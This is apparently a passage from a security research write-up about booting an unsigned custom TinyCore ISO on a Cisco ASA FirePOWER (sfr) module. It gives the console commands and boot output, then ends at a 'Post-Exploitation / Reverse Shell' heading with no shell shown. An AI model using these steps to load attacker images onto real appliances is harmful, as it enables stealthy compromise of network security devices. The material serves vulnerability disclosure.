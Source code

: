 ```
Accessing http://10.0.0.28/tinycore-custom.iso...!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
Writing file disk0:/tinycore-custom.iso...
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
INFO: No digital signature found
76193792 bytes copied in 18.440 secs (4232988 bytes/sec)

ciscoasa# sw-module module sfr recover configure image disk0:/tinycore-custom.iso
ciscoasa# debug module-boot
debug module-boot  enabled at level 1
ciscoasa# sw-module module sfr recover boot

Module sfr will be recovered. This may erase all configuration and all data
on that device and attempt to download/install a new image for it. This may take
several minutes.

Recover module sfr? [confirm]
Recover issued for module sfr.
ciscoasa# Mod-sfr 177> ***
Mod-sfr 178> *** EVENT: Creating the Disk Image...
Mod-sfr 179> *** TIME: 15:12:04 UTC Jun 13 2022
Mod-sfr 180> ***
Mod-sfr 181> ***
Mod-sfr 182> *** EVENT: The module is being recovered.
Mod-sfr 183> *** TIME: 15:12:04 UTC Jun 13 2022
Mod-sfr 184> ***
Mod-sfr 185> ***
Mod-sfr 186> *** EVENT: Disk Image created successfully.
Mod-sfr 187> *** TIME: 15:13:42 UTC Jun 13 2022
Mod-sfr 188> ***
Mod-sfr 189> ***
Mod-sfr 190> *** EVENT: Start Parameters: Image: /mnt/disk0/vm/vm_1.img, ISO: -cdrom /mnt/disk0
Mod-sfr 191> /tinycore-custom.iso, Num CPUs: 3, RAM: 2249MB, Mgmt MAC: 00:FC:BA:44:54:31, CP MA
Mod-sfr 192> C: 00:00:00:02:00:01, HDD: -drive file=/dev/sda,cache=none,if=virtio, Dev Driver: 
Mod-sfr 193> vir
Mod-sfr 194> ***
Mod-sfr 195> *** EVENT: Start Parameters Continued: RegEx Shared Mem: 0MB, Cmd Op: r, Shared Me
Mod-sfr 196> m Key: 8061, Shared Mem Size: 16, Log Pipe: /dev/ttyS0_vm1, Sock: /dev/ttyS1_vm1, 
Mod-sfr 197> Mem-Path: -mem-path /hugepages
Mod-sfr 198> *** TIME: 15:13:42 UTC Jun 13 2022
Mod-sfr 199> ***
Mod-sfr 200> Status: Mapping host 0x2aab37e00000 to VM with size 16777216
Mod-sfr 201> Warning: vlan 0 is not connected to host network
```

## Examples Post-Exploitation

The following demonstrates what we get post-exploitation.

### Reverse Shell
